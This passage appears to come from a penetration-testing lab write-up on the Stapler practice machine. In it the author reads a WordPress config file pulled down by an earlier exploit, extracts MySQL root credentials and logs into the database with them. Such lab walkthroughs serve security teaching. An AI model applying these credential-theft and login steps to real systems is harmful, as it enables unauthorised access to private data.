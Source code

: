 And finally read its contents:
```shell
strings 1765862718.jpeg
cat 1765862718.jpeg
```
![01-Stapler-11](00-Assets/01-Stapler-11.png)
- And now we have the `wp-config.php` file with a credentials for MySQL database. This file was the one downloaded because is the file the exploit request by default.
![01-Stapler-12](00-Assets/01-Stapler-12.png)

### MySQL
```shell
mysql -u root -pplbkac -h 192.168.171.148
root:plbkac
```

```mysql
SHOW DATABASES;
```
![01-Stapler-13](00-Assets/01-Stapler-13.png)
